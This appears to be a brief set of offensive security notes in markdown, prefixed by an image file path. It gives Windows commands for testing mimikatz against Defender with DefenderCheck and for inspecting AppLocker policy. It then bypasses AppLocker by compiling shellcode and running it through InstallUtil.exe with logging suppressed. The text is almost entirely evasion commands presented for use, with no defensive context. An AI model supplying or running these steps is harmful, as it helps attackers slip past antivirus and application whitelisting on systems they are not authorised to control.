 ## Malware Checking
https://github.com/matterpreter/defendercheck
	defendercheck.exe .\mimikatz.exe 
## Get around AppLocker
installUtil /U shellcode.exe 
## AppLocker
Get-Service AppIDSvc | Start-Service
Get-Service AppIDSvc
(Get-AppLockerPolicy -Local).RuleCollections

Get-ChildItem -name installutil.exe -Path C:\Windows\Microsoft.NET -Recurse 
### 
Compile Shellcode.cs 
C :\Windows\Microsoft.NET\Framework\v2.0.50727\InstallUtil.exe /logfile= /LogToConsole=false /U shellcode.exe